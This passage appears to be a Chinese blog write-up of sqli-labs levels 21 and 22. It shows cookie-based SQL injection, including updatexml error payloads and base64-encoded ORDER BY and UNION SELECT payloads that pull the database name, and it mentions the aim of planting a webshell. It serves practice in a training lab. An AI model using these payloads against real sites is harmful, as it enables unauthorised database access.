 ![image-20220921230816753](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921230816753.png)

这个需要进行木马注入，首先确定权限

![image-20220921231850969](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921231850969.png)

secure_file_priv = NULL 表示可读可写

现在在20关的基础上对payload进行修改

```
'or updatexml(1,concat(0x7e,database(),0x7e),1) or'
```

失败！！！查看原代码吧

代码依然对username和password进行了防护

![image-20220921233322423](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921233322423.png)

在设置cookie时的代码，发现其使用了base64进行加密

![image-20220921233517499](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921233517499.png)

在加密后，并登录成功，会重新获取cookie，并对其进行base64解密，所以可以判断这里是可以进行注入的

![image-20220921233815473](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921233815473.png)

设计payload，经过多次重送，确定查询列数为3行

```
')order by 3 limit 0,1--+ base64转码 JylvcmRlciBieSAzIGxpbWl0IDAsMSM=
```

![image-20220921234101160](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921234101160.png)

![image-20220921234243895](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220921234243895.png)

尝试查询注入，成功（load_file无回显，upload报错）

```
')union select 1,3,database() limit 0,1# base64转换 Jyl1bmlvbiBzZWxlY3QgMSwzLGRhdGFiYXNlKCkgbGltaXQgMCwxIw==
```

![image-20220922000259600](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922000259600.png)

## 第二十二关

使用burp进行代理抓包，发现其依然使用base64进行加密传输cookie值

![image-20220922000714646](https://shihao-icu-1304033786.cos.ap-shanghai.myqcloud.com/shihao.icu/image-20220922000714646.png)



一番尝试无果后，决定查看源码
